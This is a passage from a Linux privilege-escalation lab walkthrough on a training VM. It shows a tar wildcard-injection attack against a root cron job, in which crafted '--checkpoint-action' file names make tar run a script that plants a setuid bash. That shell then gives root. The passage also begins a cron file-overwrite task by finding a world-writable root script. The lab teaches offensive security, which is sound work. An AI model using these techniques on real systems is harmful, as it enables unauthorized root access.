 ~~~
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
TCM@debian:~$ touch /home/user/--checkpoint=1
TCM@debian:~$ touch /home/user/--checkpoint-action=exec=sh\ runme.sh
~~~

4. Wait 1 minute for the Bash script to execute.
5. In command prompt type: `/tmp/bash -p`
6. In command prompt type: `id`

~~~
TCM@debian:~$ /tmp/bash -p
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~


# [Task 18] Privilege Escalation - Cron (File Overwrite)

**﻿Detection**

Linux VM

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script `overwrite.sh`

~~~
TCM@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
~~~

3. In command prompt type: `ls -l /usr/local/bin/overwrite.sh`
4. From the output, notice the file permissions.

~~~
TCM@debian:~$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
~~~
